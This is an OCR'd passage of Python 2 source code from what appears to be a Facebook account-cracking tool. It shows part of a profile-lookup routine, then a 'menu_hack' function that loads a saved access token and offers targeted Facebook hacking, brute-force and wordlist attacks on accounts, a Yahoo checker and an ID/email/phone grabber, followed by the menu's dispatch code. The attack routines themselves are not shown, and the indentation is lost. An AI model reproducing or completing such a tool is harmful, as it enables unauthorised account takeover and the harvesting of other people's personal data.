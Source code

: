 try:
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mSchool\x1b[1;97m : '
for q in z['education']:
try:
print '\x1b[1;91m ~ \x1b[1;97m' + q['school']['name']
except KeyError:
print '\x1b[1;91m ~ \x1b[1;91mNot found'

except KeyError:
pass

raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu()
else:
print '\x1b[1;91m[\xe2\x9c\x96] User not found'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu()


def menu_hack():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()

os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '║-> \x1b[1;37;40m1. Mini HACK Facebook (\x1b[1;92mTarget\x1b[1;97m)'
print '║-> \x1b[1;37;40m2. Multi Bruteforce Facebook File Id'
print '║-> \x1b[1;37;40m3. Super Multi Bruteforce Facebook'
print '║-> \x1b[1;37;40m4. BruteForce Wordlist(\x1b[1;92mTarget\x1b[1;97m)'
print '║-> \x1b[1;37;40m5. Yahoo Checker'
print '║-> \x1b[1;37;40m6. Get ID/Email/HP'
print '║-> \x1b[1;31;40m0. Back'
print '\x1b[1;37;40m║'
hack_pilih()


def hack_pilih():
hack = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
if hack == '':
print '\x1b[1;91m[!] Can\'t empty'
hack_pilih()
else:
if hack == '1':
mini()
else:
if hack == '2':
crack()
hasil()
else:
if hack == '3':
super()
else:
if hack == '4':
brute()
else:
if hack == '5':
menu_yahoo()
else:
if hack == '6':
grab()